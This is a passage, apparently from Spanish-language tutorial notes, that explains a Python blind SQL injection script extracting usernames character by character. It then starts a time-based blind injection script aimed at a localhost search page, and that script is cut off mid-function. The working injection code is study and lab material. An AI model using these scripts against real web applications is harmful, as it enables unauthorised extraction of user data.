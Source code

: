- `substring(username, %d, 1)`: Extrae un único carácter de `username`.
    
- `ascii(...) = %d`: Compara el valor ASCII con el carácter iterado.
    
- Si la condición es verdadera, la consulta devuelve un resultado válido.
    

#### Realización de la petición HTTP

```python
            r = requests.get(sqli_url)
```

- Enviamos la petición a la web con la inyección SQL.
    

#### Comprobación de la respuesta

```python
            if r.status_code == 200:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break
```

- Si el servidor responde con `200 OK`, significa que hemos acertado el carácter.
    
- Lo añadimos a `extracted_info` y actualizamos el progreso.
    
- `break`: Terminamos la iteración interna y pasamos a la siguiente posición del `username`.
    

### Ejecución del script

```python
if __name__ == '__main__':
    makeSQLI()
```

- Llamamos a `makeSQLI()` si el script se ejecuta directamente.
    

# Script a ciegas para inyecciones basadas en tiempo

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from pwn import *
import string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

```